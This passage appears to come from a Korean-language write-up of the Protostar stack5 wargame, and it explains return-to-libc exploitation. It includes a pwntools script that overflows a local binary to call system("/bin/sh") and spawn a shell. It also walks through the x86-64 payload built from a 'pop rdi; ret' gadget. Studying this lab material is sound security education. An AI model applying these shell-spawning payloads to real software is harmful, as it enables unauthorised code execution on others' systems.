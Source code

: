 `0xfffffff0` 과 and 연산을 함으로써 무조건 16의 배수로 만든 esp를 ebp에 넣어서 스택의 바닥을 지정하는 부분이 보인다.

다시 핵심으로 돌아와, 대상 파일을 컴파일해 앞의 과정을 다시 밟은 이후 페이로드를 지정한다면 아래처럼 쉘을 딸 수 있다.

![Untitled](/assets/img/posts/protostar5/Untitled%209.jpeg)

물론 스크립트를 작성해 익스플로잇을 수행할 수도 있다.

```python
# stack5_32_exploit.py
from pwn import *

p = process('./stack5_32')

system_add=p32(0xf7e1b3d0)
ret_corrupt=p32(0x41414141)
str_add=p32(0xf7f5c1db)

payload = b'A'*0x44+system_add+ret_corrupt+str_add

p.sendline(payload)

p.interactive()
```

---
<br><br>

# 2. X86-64 기반에서 RTL 수행하기

앞서 익스플로잇의 세 단계 중 두 단계를 끝냈기 때문에 이 절에서는 마지막 단계에 대해서만 서술한다.

1. 대상 프로그램 분석해 취약점 지정
2. 해당 취약점을 익스플로잇할 방법 지정
3. 익스플로잇 생성

<br>

## 2.1. 페이로드가 왜 이 모양이야?

64비트로 컴파일된 프로그램에 RTL을 하려면 아래와 같은 페이로드를 넣어야 한다.

```
offset bytes + Gadget address(pop rdi;ret;) + parameter address + Library function address
```

대체 왜 그런 거지 싶다. 이유는 정말 간단한데, 앞서 설명했던 Cdecl 규정, 함수의 Calling Convention 때문이다. x86-64에서는 함수의 첫 파라미터 6개가 rdi, rsi, rdx, rcx, r8, r9에 순서대로 들어가고, 그러고도 파라미터가 남는다면 뒤에서부터 스택에 들어간다는 것을 꼭 기억하자. 

우리는 system() 함수에 “/bin/sh” 문자열의 주소를 첫 번째이자 마지막 인자로 전달하는 것이 목적이다. 즉, “/bin/sh”의 주소를 rdi에 저장해야만 한다. 그렇게 하기 위해

1. 스택 프레임의 ret add에 메모리에 적재된 수많은 인스트럭션 중 어딘가에 있을 `pop rdi;ret` 의 주소를 넣고
2. 해당 인스트럭션 중 첫 번째로 `pop rdi` 가 실행된다면 rsp가 위치한 곳, 즉 현재 ret address의 바로 아래 위치가 rdi에 담기고 rsp가 한 주소 아래로 내려가게 될 것을 이용한다.
3. 직후 `ret` 가 실행될 것, 즉 현재 위치한 rsp가 가리키는 스택 위치에 담긴 주소가 rip에 담겨 이다음에 실행될 것을 이용한다.
